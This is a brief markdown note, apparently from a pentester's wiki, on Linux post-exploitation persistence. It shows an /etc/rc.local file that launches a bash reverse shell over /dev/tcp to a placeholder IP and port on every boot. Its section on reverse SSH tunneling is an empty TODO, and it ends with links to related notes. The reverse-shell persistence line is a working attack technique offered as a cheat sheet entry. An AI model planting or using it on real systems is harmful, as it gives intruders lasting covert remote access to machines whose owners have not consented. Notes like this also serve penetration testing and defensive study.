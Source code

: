 # Living off the Land

## 01 - Callback Shell

```
$ cat /etc/rc.local
#!/bin/sh -e
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
exit 0
```

## 02 - Reverse SSH Tunneling

TODO: Fill this info

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[Remote Port Forwarding|SSH: Remote Port Forwarding]]